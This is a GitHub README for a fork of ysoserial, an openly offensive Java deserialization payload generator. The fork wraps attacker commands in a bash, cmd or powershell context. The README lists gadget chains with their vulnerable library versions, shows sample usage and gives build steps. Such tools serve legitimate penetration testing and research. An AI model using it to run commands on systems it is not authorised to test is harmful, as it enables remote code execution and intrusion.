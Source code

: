 
# ysoserial-modified 

Thats a fork of the original ysoserial application that can be found here: [https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)

## Description of the Modification

Due how `Runtime.getRuntime().exec(String.class)` works in java, nested and complex commands where you'll need control pipes or send the output to files (ex: cat /etc/passwd > /tmp/passwd_copy) will not work because the command executed by the exec() method from the Runtime class isn't executed inside of a terminal environment. One possible hack is execute "/bin/sh -c 'command'" but you'll need escape the space charater on the 'command' using ${IFS} or it will not work as expected. For more details about that problem and possible workaround please read [this blopost](http://codewhitesec.blogspot.com.au/2015/03/sh-or-getting-shell-environment-from.html) that will go deep on the details.

A good solution to fix that problem is pass the arguments to the method `Runtime.getRuntime().exec(String[].class)` that expects an array of Strings. The best option is execute the following: `Runtime.getRuntime().exec("/bin/sh", "-c", "command")`. Passing the arguments that way, java will understand that you're executing the /bin/bash passing the arguments -c and 'command' on the correct way and will execute your command inside of an terminal environment, what you allow you use nested or complex commands and also control inputs and outputs.

Knowing that I added a functionality to ysoserial where you give the type of the terminal that you want use to execute your command (cmd / bash / powershell or none) and my modification will execute your command inside of that terminal context allowing you to execute any complex command as it should work!

## Usage

```shell
pimps@Scorpion:~/git/ysoserial-modified/target$ java -jar ysoserial-modified.jar 
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] [terminal type: cmd / bash / powershell / none] '[command to execute]'
   ex: java -jar ysoserial-[version]-all.jar CommonsCollections5 bash 'touch /tmp/ysoserial'
	Available payload types:
		BeanShell1 [org.beanshell:bsh:2.0b5]
		C3P0 [com.mchange:c3p0:0.9.5.2, com.mchange:mchange-commons-java:0.2.11]
		CommonsBeanutils1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
		CommonsCollections1 [commons-collections:commons-collections:3.1]
		CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections3 [commons-collections:commons-collections:3.1]
		CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections5 [commons-collections:commons-collections:3.1]
		CommonsCollections6 [commons-collections:commons-collections:3.1]
		FileUpload1 [commons-fileupload:commons-fileupload:1.3.1, commons-io:commons-io:2.4]
		Groovy1 [org.codehaus.groovy:groovy:2.3.9]
		Hibernate1 []
...
```
## Download / Install

Download the compiled jar from the /target directory on this repository or just [click here](https://github.com/pimps/ysoserial-modified/raw/master/target/ysoserial-modified.jar)

To compile it by yourself:

Require Java 1.7+ and Maven 3.x+

```shell
$ git clone https://github.com/pimps/ysoserial-modified.git
$ cd ysoserial-modified
$ mvn clean package -DskipTests
```

The jar file will be located on the target directory
